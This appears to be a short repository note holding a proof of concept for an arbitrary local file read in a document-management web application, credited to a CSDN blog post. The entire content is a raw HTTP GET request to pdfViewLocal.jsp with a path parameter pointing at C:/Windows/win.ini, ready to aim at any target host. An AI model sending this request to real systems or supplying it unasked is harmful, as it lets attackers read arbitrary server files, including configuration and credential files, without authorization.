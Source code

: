 # kindee_pdfviewlocal_fileread

2024/1/15
from: https://blog.csdn.net/luochen2436/article/details/135479478?spm=1001.2014.3001.5502
@2
```
GET /plt_document/fragments/content/pdfViewLocal.jsp?path=C:/Windows/win.ini HTTP/1.1
Host: your_ip
Accept-Encoding: gzip
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15

```
